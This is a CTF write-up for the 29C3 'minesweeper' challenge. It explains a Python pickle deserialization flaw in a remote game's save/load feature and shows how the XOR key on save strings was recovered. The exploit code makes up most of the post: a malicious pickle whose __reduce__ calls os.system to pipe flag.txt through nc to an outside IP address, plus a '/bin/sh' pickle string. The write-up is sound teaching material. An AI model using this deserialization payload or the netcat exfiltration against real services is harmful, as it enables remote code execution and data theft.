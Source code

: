 ```yaml
---
title: 29C3 CTF Exploitation 100 minesweeper
author: kelwin
layout: post
permalink: /29c3-ctf-minesweeper/
categories:
  - CTF
  - writeup
---
```

There&#8217;s a python remote service in this challenge, which runs a classical windows game &#8220;minesweeper&#8221;. You can send command to play the game and get game status from remote server. What&#8217;s interesting in the challenge is the load and save mechanism. If you choose to send &#8220;save&#8221; command, you will get a string which you can use it to restore the game. However, it uses a Python module &#8220;Pickle&#8221; to save and load the game status object. &#8220;Pickle&#8221; module has vulnerablity which you can exploit it to execute arbitrarily command. Vulnerable code is as below:

    def load(self, data):
        self.__dict__ = pickle.loads(data)
    
    def save(self):
        return pickle.dumps(self.__dict__, 1)
    

However, to construnct malformed data for the server to load is not that easy. It uses a remote side key to encode the game status data after &#8220;save&#8221; function and decode it before &#8220;load&#8221;. So in order to construct what we want to pass to &#8220;load&#8221; correctly, we should first figure the encryption key out. It&#8217;s an easy xor algorithm. We can win a game manully and use the mines&#8217; position information to construct the encoding process locally. With the help of returned &#8220;save&#8221; string for restore, we can recover the remote key. Using the key, we can construnt anything evil to capture the flag.

Code sample for exploitation is below:

    #You win
    #  0123456789012345
    # +----------------+
    #0|0001!22110000000|0
    #1|00012!2 10000000|1
    #2|0000112110000000|2
    #3|1110000111000000|3
    #4|1 100001 1001221|4
    #5|2210000111001  1|5
    #6| 100001110001221|6
    #7|1100001 10000000|7
    #8|0000001111110000|8
    #9|0000000001 10000|9
    #0|0000001111110000|0
    #1|0111002 31001221|1
    #2|12 1002  2111  1|2
    #3| 211001222 11343|3
    #4|11000000011101  |4
    #5|0000000000000122|5
    # +----------------+
    f = Field(16, 16, 20)
    mines = [(0, 6), (0, 13), (1, 4), (2, 12), (4, 0), (5, 1), (7, 1), (7, 7), (7, 11), (7, 12), (8, 4), (8, 12), (10, 9), (10, 13), (13, 5), (13, 12), (14, 5), (14, 12), (14, 14), (15, 14)]
    f.set(mines)
    
    sg64 = "HPplCE7Muyvp1j5A14955hXLFCe9haqb75ao1xO90X7+Natm428OJ/lXrgXEB6us8h7+3SasoqCOcNN1erlRMqRgdk5vxDDasf1GoAK1px95fLRcaXQzvQ9yNeGxSnjsfLljG4OyP7ETeRsEdYfOAemHJNmFf/PWjED9YVVCXopwFN5thdVzetzod5VbdjM7oBwOf1hzCFCCp6HPPORonEEgTxAukve+Jl/LUxKgRAlNKoTPSCQVNae7T7ucp0d6xFfpqHpAcjGb+WxJoCfo+59uCIb4GZBM7JZEH3Z+8Bswnpr5ZbfF/9PZ+CEcTPI/p444N0bX9r3lIg=="
    sg = base64.standard_b64decode(sg64)
    msg = f.save()
    print f.__dict__
    
    h = hashlib.sha1()
    h.update(msg)
    msg = "4n71cH3aT" + h.digest() + msg
    key = ""
    print len(msg),len(sg)
    
    for i in xrange(0, len(msg)):
        key += chr(ord(msg[i]) ^ ord(sg[i]))
    print key
    
    class Exploit(object):
      def __reduce__(self):
          comm = "cat flag.txt | nc 166.111.132.184 5678"
          return (os.system, (comm,))
    
    msg = "cos\nsystem\n(S'/bin/sh'\ntR.'\ntR."
    msg = pickle.dumps(Exploit())
    h = hashlib.sha1()
    h.update(msg)
    msg = "4n71cH3aT" + h.digest() + msg
    tmp = ""
    
    for i in xrange(0, len(msg)):
        tmp += chr(ord(msg[i]) ^ ord(key[i]))
    msg = tmp
    
    print "Your savegame: " + base64.standard_b64encode(msg)
    print ""
    print ""
    
    tmp = ""
    for i in xrange(0, len(msg)):
        tmp += chr(ord(msg[i]) ^ ord(key[i]))
    msg = tmp
    if msg[0:9] != "4n71cH3aT":
        print (True, "Unable to load savegame (magic)")
    h = hashlib.sha1()
    h.update(msg[9+h.digest_size:])
    if msg[9:9+h.digest_size] != h.digest():
        print (True, "Unable to load savegame (checksum)")
    f.load(msg[9+h.digest_size:])